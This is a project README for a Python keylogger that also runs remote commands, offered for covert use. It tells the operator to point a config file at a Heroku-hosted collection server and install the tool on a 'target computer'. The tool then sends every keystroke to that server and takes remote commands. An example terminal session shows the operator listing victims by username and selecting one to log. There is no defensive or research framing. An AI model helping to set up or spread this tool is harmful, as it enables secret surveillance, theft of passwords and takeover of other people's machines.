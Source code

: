 # Keylogger

Keylogger created in Python. This application not only captures the keys like any other Keylogger, but also has the functionality to execute commands on the target computer and more.

# Getting Started:

**Requirements:**

- Python 3
- Dependencies installed

To install the dependencies, type the command: `pip install -r requirements.txt`

After that, start the server at `server/server.py` ( it is already configured to run on Heroku ).

# Setting and running keylogger:

Open the `app/config/config.json` file and enter the server URL in the **host** key. See the example below:
```
{
    "host": "https://keylogger-app-37456.herokuapp.com"
}
```

Once configured, install the **keylogger** on the target computer and run. After that, all the keys pressed by the 
user will be read and sent to the server and the application will be ready to receive and execute your commands.

# Getting the keys and executing commands:

To read keys and execute commands on the target computer, run `app/terminal.py` and select a user using
the `select` command. See the example below:

```
In: users

John Gamer
KatarinaMid_273
Victor34

In: select KatarinaMid_273
In: keylogger
```

Type `help` to see all available commands.
